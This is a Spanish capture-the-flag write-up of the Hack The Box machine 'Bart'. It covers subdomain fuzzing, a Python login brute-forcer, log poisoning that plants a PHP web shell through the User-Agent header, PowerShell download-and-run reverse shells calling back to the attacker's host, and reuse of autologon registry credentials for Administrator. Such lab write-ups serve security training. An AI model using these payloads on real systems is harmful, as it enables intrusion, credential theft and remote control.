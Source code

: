 ```yaml
---
layout: post
title: Bart
date: 2022-11-29
categories: ["HTB"]
thumbnail: "assets/images/Bart.png"
---
```


# Bart [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.81 -oG allPorts`
- `nmap -sCV -p80 10.10.10.81 -oN targeted`

`NMAP` nos dice que no ha seguido el redireccionamiento a `http://forum.bart.htb`.

### Inspección #1

Una vez haymos agregado `bart.htb` y `forum.bart.htb` al archivo `/etc/hosts` podemos ver la página sin problema. Nos encontramos en una página de negocios y tecnología revolucionaria, al inspeccionar el código fuente vemos un comentario añadiendo a otro desarrollador y nos dice que no puede añadirlo, ya que el `CSS` se rompe, por lo que lo deja ahí.

No hay nada interesante, pero si nos fijamos vemos que estamos en un subdominio, así
que con WFuzz vamos a enumerar subdominios para descubrir si hay más.

- `wfuzz -w top1million-2000.txt -H "Host: FUZZ.bart.htb" -t 100 10.10.10.81`

Bien! Gracias a `WFuzz` hemos descubierto otro subdominio (`monitor.bart.htb`)! Nos dirigimos a la página para ver a lo que nos estamos enfrentando. Tenemos ante nosotros un panel `login` de `PHP Server Monitor`, no disponemos de ningún usuario válido y menos de una contraseña, pero vemos un botón para restaurar la contraseña, cuando lo clicamos no nos pide un correo, sino un nombre de usuario, por lo que vamos probando hasta que damos con el usuario `harvey`. En la página principal veíamos varias personas y en el código fuente a `Harvey`, por lo que podíamos intuir lo que había que hacer.

Ahora bien, seguimos sin tener ninguna contraseña, aunque para eso usaremos `CeWL`, una herramienta hecha en `Ruby` que nos permite crear `wordlists` customizadas, en este caso queremos que nos saque una `wordlist` de la página inicial.

- `cewl -w cewl-forum.txt -e -a http://forum.bart.htb`

Bien! Ya tenemos una `wordlist` customizada! Ahora hice un `script` en `Python` para probar todas las contraseñas de ese diccionario.

```
import requests

with open("cewl-forum.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for passwd in lines:
        passwd = str(passwd).replace("\n", "").lower()
        cookies = {"PHPSESSID": "71793v7dsekogj5f3o0seo4341"}
        data = {
        "csrf": "999792d7ce[...]e511694927ca218",
        "user_name": "harvey",
        "user_password": f"{passwd}",
        "action": "login",
        }

        r = requests.post("http://monitor.bart.htb/", cookies=cookies, data=data)
        print(f"Harvey [ {passwd} ] | " + str(len(r.content)))
```

Como vemos en este `script` medimos la longitud de la respuesta, ya que si la contraseña es incorrecta siempre es la misma longitud, en cambio, cuando la longitud haya cambiado significará que la contraseña es correcta. Tras unos minutos hemos podido obtener la contrasña de Harvey (`harvey:potter`)!

### Inspección #2

Una vez estemos dentro del panel veremos varios apartados arriba, nos dirigimos a `Servers` y vemos otro subdominio, vamos a agregarlo al archivo `/etc/hosts`.

Una vez agregado entramos y vemos otro panel `login`, nos disponemos a `fuzzear` la página con `WFuzz` para encontrar archivos con extensión `PHP`.

- `wfuzz dir -u "http://internal-01.bart.htb/simple_chat/FUZZ.php" -w directory-list-2.3-medium.txt`

Gracias a esto vemos un archivo llamado `register.php`, investigando un poco más sobre `SimpleChat` vemos que es un proyecto de código abierto y está disponible en `GitHub`, por lo que mirando el código vemos que necesitamos dos parámetros (`uname` y `passwd`) y que la petición se tramita mediante `POST`, por lo que nos podemos crear un usuario tramitando una petición con `CURL`.

```
data="uname=black&passwd=password"
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "$data"
```
Bien! Hemos creado un usuario! Ahora podemos acceder al panel para poder continuar. Es simplemente un chat, vemos mensajes pero no son relevantes, lo importante está en el código fuente, el cual está algo cambiado respecto al original, añadiendo así un pequeño `script`:

```
<div id="log_link">
  <script>
    function saveChat() {
      // Create a serialized object and send to log_chat.php.
      // Once done the XHR request, alert "Done"
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          alert(xhr.responseText);
        }
      }
      xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
      xhr.send(null);
      alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
```

Cuando el usuario clica el link Log ejecuta la función `SaveChat`, la cual hará saltar una ventana diciendo `Done` y luego otra diciendo `1`. Eso es debido a que la función `xhr.open` es llamada con el tercer parámetro `true`, que pone la llamada al modo `async`. El `script` dice `Done` y luego, una vez la petición regresa, la función `xhr.onreadystatechange` es llamada, alertando así del texto con la respuesta.

Si nos vamos manuealmente a la URL veremos un código de estado `1`, pero si cambiamos el nombre de usuario vemos `0`. Hay un parámetro llamado `filename`, el cual tiene como valor `log.txt`, entramos `http://internal-01.bart.htb/log/log.txt` y vemos que existe, por lo que me hace pensar que se está creando un archivo el cual muestra nuestro `User-Agent`.

Con esto en cuenta nos acordamos del `Log Poisoning` o `Envenenamiento de Registros`, así que vamos a probarlo. Para ello cambiaré mi User-Agent a `<?php phpinfo(); ?>` para que cuando cargue nos interprete el `PHP` y podamos ver la información de `PHP`.

```
import requests

headers = {'User-Agent':'<?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
```

Una vez ejecutado el script nos dirigimos a `http://internal-01.bart.htb/log/phpinfo.php` y podremos ver que la inyección ha salido bien, por lo que ahora podemos crear otro archivo pero que tome el parámetro cmd para ejecutar el comando a nivel de sistema y representar el resultado, para ello cambiaremos el `User- Agent` a `<?php system($_REQUEST['cmd']); ?>`.

Bien! Ya podemos ejecutar comandos a nivel de sistema!

### Shell

Para obtener una Shell me descargué un archivo `PS1` llamado [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del
repositorio [`Nishang`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Una vez lo tenía de manera local le añadí al final una línea para poder entablarnos la conexión y me puse en escucha con `NC`.

- `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444`
- `nc -nlvp 4444`

Bien! Ya estamos preparados para obtener la Shell! De nuevo usaremos `Python` para montarnos un servidor y mandar la petición de una manera más cómoda.

- `python3 -m http.server 80`

```
import requests

cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/Invoke-PowerShellTcp.ps1')"
r = requests.get('http://internal-01.bart.htb/log/black.php?cmd={}'.format(cmd))
```

Bien! Hemos recibido la conexión! Ya estamos en la máquina como `IUSR`!


### Subida de privilegios

Ahora que estamos en la máquina hay que intentar ser administradores, para ello comenzé con pruebas estándar para la subida de privilegios en `Windows`. Tras estar probando encontré credenciales por defecto en los registros de `autologon`.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```
DefaultDomainName REG_SZ DESKTOP-7I3S68E
DefaultUserName REG_SZ Administrator
DefaultPassword REG_SZ 3130438 f31186fbaf962f407711faddb
```

Para obtener la Shell como `Administrator` edité el `script` que habíamos utilizando anteriormente cambiándole el puerto a `443`, una vez hecho eso me puse en escucha, me monté un servidor en `Python` y pasé a hacer lo siguiente:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object
Net.WebClient).downloadString('http://10.10.14.15/Shell.ps1') } -Credential $cred
-Computer localhost
```

Enhorabuena! Ya estamos como `bart\administrator` en la máquina! Vaya desafío!